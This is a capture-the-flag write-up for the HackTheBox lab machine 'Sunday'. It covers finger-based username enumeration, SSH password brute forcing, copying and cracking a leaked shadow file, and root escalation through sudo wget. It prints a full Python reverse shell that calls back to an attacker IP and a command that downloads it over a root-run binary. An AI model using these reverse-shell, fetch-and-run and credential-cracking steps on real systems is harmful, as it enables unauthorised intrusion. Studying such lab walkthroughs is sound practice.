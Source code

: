 ![logo](/logo.png)

# [Sunday- BOX]  
Hi folks, today I am going to solve an Easy rated hack the box machine which was released on 23 Sep 2017 machine on HTB,Sunday created by [Agent22](https://app.hackthebox.com/users/10931) .So without any further intro, let'sf jump in.

# common enumeration

## Nmap
  *solaris
  
###### code-nmap

```code
nmap -sV -sC -oA nmap/sunday 10.10.10.76
```

###### Output 

![](/Solaris/Sunday/Screenshots/nmap.png)

```sh
nmap -sV -sC -oA nmap/sunday 10.10.10.76                                                                                          ─╯
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-26 19:17 EAT
Nmap scan report for 10.10.10.76
Host is up (0.32s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE VERSION
79/tcp  open  finger?
| fingerprint-strings: 
|   GenericLines: 
|     No one logged on
|   GetRequest: 
|     Login Name TTY Idle When Where
|     HTTP/1.0 ???
|   HTTPOptions: 
|     Login Name TTY Idle When Where
|     HTTP/1.0 ???
|     OPTIONS ???
|   Help: 
|     Login Name TTY Idle When Where
|     HELP ???
|   RTSPRequest: 
|     Login Name TTY Idle When Where
|     OPTIONS ???
|     RTSP/1.0 ???
|   SSLSessionReq, TerminalServerCookie: 
|_    Login Name TTY Idle When Where
|_finger: No one logged on\x0D
111/tcp open  rpcbind 2-4 (RPC #100000)
515/tcp open  printer

```


Nmap finds several open services, most notable Finger running on port 79. The [finger](https://en.wikipedia.org/wiki/Finger_protocol) daemon listens on port 79, and is really a relic of a time when computers were far too trusting and open. It provides status reports on logged in users. It can also provide details about a specific user and when they last logged in and from where.

Running `finger @[ip]` will tell us of any currently logged in users:

![](/Solaris/Sunday/Screenshots/finger.png)

If finger returns no logged in users, we can try to brute force usernames. We’ll use the [finger-user-enum.pl](http://pentestmonkey.net/tools/finger-user-enum/finger-user-enum-1.0.tar.gz)script from pentestmonkey.

```sh
 ./finger-user-enum.pl -U /usr/share/seclists/Usernames/Names/names.txt -t 10.10.10.76
```

![](/Solaris/Sunday/Screenshots/enumfinger.png)


Now we can compare the results of finger for a name that exists and one that doesn’t:

![](/Solaris/Sunday/Screenshots/fingers.png)

While Hydra does not work in this instance, there are several other tools out there that can get
the job done. Brute forcing will find the password for `sunny is sunday`, and a shell can be
obtained by connecting over SSH on port 22022

```
ssh -p 22022 sunny@10.10.10.76
```

![](/Solaris/Sunday/Screenshots/shell.png)

Inside `/backup` there’s a copy of a `shadow` file that is world readable:

![](/Solaris/Sunday/Screenshots/backup.png)

They can be copy/pasted as they are small, or by using

```sh
base64 -w 0 shadow.backup 
```

![](/Solaris/Sunday/Screenshots/base64.png)

```sh
echo "bXlzcWw6TlA6Ojo6Ojo6Cm9wZW5sZGFwOipMSyo6Ojo6Ojo6CndlYnNlcnZkOipMSyo6Ojo6Ojo6CnBvc3RncmVzOk5QOjo6Ojo6OgpzdmN0YWc6KkxLKjo2NDQ1Ojo6Ojo6Cm5vYm9keToqTEsqOjY0NDU6Ojo6OjoKbm9hY2Nlc3M6KkxLKjo2NDQ1Ojo6Ojo6Cm5vYm9keTQ6KkxLKjo2NDQ1Ojo6Ojo6CnNhbW15OiQ1JEVia244amxLJGk2U1NQYTAudTdHZC4wb0pPVDRUNDIxTjJPdnNmWHFBVDF2Q29ZVU9pZ0I6NjQ0NTo6Ojo6OgpzdW5ueTokNSRpUk1icG5CdiRaaDdzNkQ3Q29sbm9nQ2RpVkU1Rmx6OXZDWk9Na1VGeGtsUmhoYVNoe" > shadow.b64
```

```sh
base64 -d shadow.b64 > shadow.backup
```

![](/Solaris/Sunday/Screenshots/echobase64.png)

with rockyou.txt finds the password for sammy fairly quickly

![](/Solaris/Sunday/Screenshots/hashact.png)


Armed with sammy’s password, it is now possible to ssh in as sammy:

```sh
 ssh -p 22022 sammy@10.10.10.76
```

and from sammy we can get a user flag

![](Solaris/Sunday/Screenshots/userflag.png)

# Privillage Escalation

Running sudo -l as sammy reveals that it is possible to run sudo wget. By overwriting the
/root/troll binary which sunny has access to, it is possible to achieve a root shell. Note that there
is a script running which reverts the file to the original seemingly every second, so it helps to
have two shells open and execute the commands quickly.

There’s a ton of things we can do from here. Reading the [wget man page](https://linux.die.net/man/1/wget) provides a wealth of ideas.When enumerating as sunny, I found a binary named troll that sunny could run with sudo without password:

So let’s make troll useful. First, on kali, create a shell.py, which is basically a nicely formatted [reverse python shell from pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet):

```sh
#!/usr/bin/python

import socket
import subprocess
import os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.11",443))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"]);
```

```sh
sudo wget http://10.10.14.11/shell.py -O /root/troll
```

![](/Solaris/Sunday/Screenshots/wget.png)

we have to execute very fast the wget then the `sudo /root/troll`

![](/Solaris/Sunday/Screenshots/troll.png)

By executing this first we are able to get the root shell

![](Solaris/Sunday/Screenshots/root.png)

we can now get the root flag from the

![](/Solaris/Sunday/Screenshots/rootflag.png)

	-------------------------END successful attack @lesley----------------------
